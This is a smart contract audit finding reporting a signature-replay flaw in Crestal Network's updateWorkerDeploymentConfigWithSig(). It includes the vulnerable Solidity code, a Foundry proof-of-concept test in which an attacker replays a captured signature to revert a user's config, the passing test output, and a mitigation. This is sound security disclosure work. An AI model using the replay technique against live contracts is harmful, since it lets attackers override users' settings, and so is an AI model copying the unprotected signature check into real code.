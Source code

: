 Tangy Indigo Dalmatian

High

# Malicious actor can re-use signature to undo an update of worker deployment config

### Summary

Contract implements two methods of updating deployment config:
* `updateWorkerDeploymentConfigWithSig()` - anyone with valid signature can call it
* `updateWorkerDeploymentConfig()` only the owner of current worker can call it

However, the signature from `updateWorkerDeploymentConfigWithSig()` can be re-used. This leads to the scenario, that everyone can update the worker deployment config to the one from `updateWorkerDeploymentConfigWithSig()` -  which effectively undo any previous `updateWorkerDeploymentConfig()`.

1. Alice generates signature for Bob 
2. Bob calls `updateWorkerDeploymentConfigWithSig()`  and updates Alice deployment config
3. After some time, Alice calls `updateWorkerDeploymentConfig()`, to update her config once again
4. Malicious actor extracts signature from step 2. and calls `updateWorkerDeploymentConfigWithSig()` again, which updates the deployment config to the value from the previous call (step 2) and undo the Alice's update (from step 3).

### Root Cause

[File: EIP712.sol](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/EIP712.sol#L47)
```solidity
    function getSignerAddress(bytes32 hash, bytes memory signature) public pure returns (address) {
        address signerAddr = ECDSA.recover(hash, signature);
        require(signerAddr != address(0), "Invalid signature");
        return signerAddr;
    }
```

[File: BlueprintCore.sol](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L672)
```solidity
    function updateWorkerDeploymentConfigWithSig(
        address tokenAddress,
        bytes32 projectId,
        bytes32 requestID,
        string memory updatedBase64Config,
        bytes memory signature
    ) public {
        // get EIP712 hash digest
        bytes32 digest = getRequestDeploymentDigest(projectId, updatedBase64Config, "app.crestal.network");

        // get signer address
        address signerAddr = getSignerAddress(digest, signature);

        updateWorkerDeploymentConfigCommon(tokenAddress, signerAddr, projectId, requestID, updatedBase64Config);
    }
```

There's no mechanism protecting from signature re-use. Anyone can call `updateWorkerDeploymentConfigWithSig()` again, with the same, old signature.

### Internal Pre-conditions

None

### External Pre-conditions

1. User shares a signature allowing someone else to call `updateWorkerDeploymentConfigWithSig()`
2. After that call, user calls `updateWorkerDeploymentConfig()` again with different deployment config.

### Attack Path

Please follow Foundry PoC first, this is step-by-step explanation what's happening in the Foundry test.

1. Alice sets her deployment config to `FIRT-BY-ALICE`.
2. After some time, Alice wants to update it. She creates signature, passes it to Bob and allows Bob to call `updateWorkerDeploymentConfigWithSig()`
3. Bob calls `updateWorkerDeploymentConfigWithSig()`, deployment config is updated to `SECOND-WITH-SIGNATURE`.
4. Malicious actor - Eve, sees the executed transactions and extract the signature from it.
5. After some time, Alice wants to update deployment config again. She calls `updateWorkerDeploymentConfig()` and updates deployment config to `THIRD-ALICE-AGAIN`.
6. Now, Eve, using the extracted signature - calls `updateWorkerDeploymentConfigWithSig()` with previously set value `SECOND-WITH-SIGNATURE`.
7. Since the signature is still valid and it can be re-used, the deployment config set by Alice in the 5th step: `THIRD-ALICE-AGAIN`, is being updated by Eve to the previous value: `SECOND-WITH-SIGNATURE`
8. The malicious actor - Eve - effectively undo Alice's `updateWorkerDeploymentConfig()` call, by setting the deployment config to the previous value: `SECOND-WITH-SIGNATURE`.

### Impact

It's possible to undo `updateWorkerDeploymentConfig()` by setting the deployment config to the previous values.

### PoC

Include this test in `test/BlueprintV5.t.sol`.

```solidity
function test_sherlockPoC_updateDeploymentConfigSignatureReuse() public {
        string memory updatedBase64Config = "FIRST-BY-ALICE";
        string memory serverURL = "app.crestal.network";
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 0);
        blueprint.setUpdateCreateAgentTokenCost(address(mockToken), 0);

        address ALICE = vm.addr(0xA11CE);
        address BOB = address(0xb0b);
        address EVE = address(0xe11e);

        vm.startPrank(ALICE); // Alice creates agent with token and updates it
        bytes32 requestId =
            blueprint.createAgentWithToken(projectId, updatedBase64Config, workerAddress, serverURL, address(mockToken));

        blueprint.updateWorkerDeploymentConfig(address(mockToken), projectId, requestId, updatedBase64Config);

        // Alice generates signature to update deployment config and passes it to Bob
        bytes memory signature;
        address signerAddress;
        updatedBase64Config = "SECOND-WITH-SIGNATURE";
        (signature, signerAddress) = generateSignature(projectId, updatedBase64Config, serverURL);
        vm.stopPrank();

        vm.prank(BOB); // Bob updates Alice's deployment config - as he has Alice's signature
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), projectId, requestId, updatedBase64Config, signature
        );

        // Alice updates the deployment config again
        updatedBase64Config = "THIRD-ALICE-AGAIN";
        vm.prank(ALICE);
        blueprint.updateWorkerDeploymentConfig(address(mockToken), projectId, requestId, updatedBase64Config);

        // Eve fetches the signature (from the BOBs transaction, and re-uses it with old config):
        updatedBase64Config = "SECOND-WITH-SIGNATURE";
        vm.prank(EVE);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), projectId, requestId, updatedBase64Config, signature
        );
    }
```

```bash
% forge test --mt test_sherlockPoC_updateDeploymentConfigSignatureReuse -vvv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/BlueprintV5.t.sol:BlueprintTest
[PASS] test_sherlockPoC_updateDeploymentConfigSignatureReuse() (gas: 370426)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.31ms (3.61ms CPU time)
```

As demonstrated - Eve was able to undo Alice's update. Alice updated the deployment config to `THIRD-ALICE-AGAIN`, yey - Eve updated it back to `SECOND-WITH-SIGNATURE`.

### Mitigation

Implementing mechanism protecting from signature re-use. It should not be possible to call `updateWorkerDeploymentConfigWithSig()` with the same signature more than once.